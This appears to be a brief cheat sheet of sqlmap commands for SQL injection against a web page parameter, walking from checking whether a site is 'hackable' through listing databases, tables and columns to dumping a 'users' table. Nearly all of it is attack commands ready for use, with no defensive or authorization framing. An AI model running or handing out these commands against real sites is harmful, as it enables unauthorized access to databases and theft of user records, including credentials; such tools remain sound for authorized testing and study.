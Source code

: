## Sqlmap Commands

#### Find if Site is Hackable
$ python sqlmap.py -u "http://www.site.com/section.php?id=51"

#### Discover Databases
$ python sqlmap.py -u "http://www.sitemap.com/section.php?id=51" --dbs

#### Find tables in a particular database
$ python sqlmap.py -u "http://www.site.com/section.php?id=51" --tables -D safecosmetics

#### Get columns of a table
$ python sqlmap.py -u "http://www.site.com/section.php?id=51" --columns -D safecosmetics -T users

#### Get data from a table
$ python sqlmap.py -u "http://www.site.com/section.php?id=51" --dump -D safecosmetics -T users
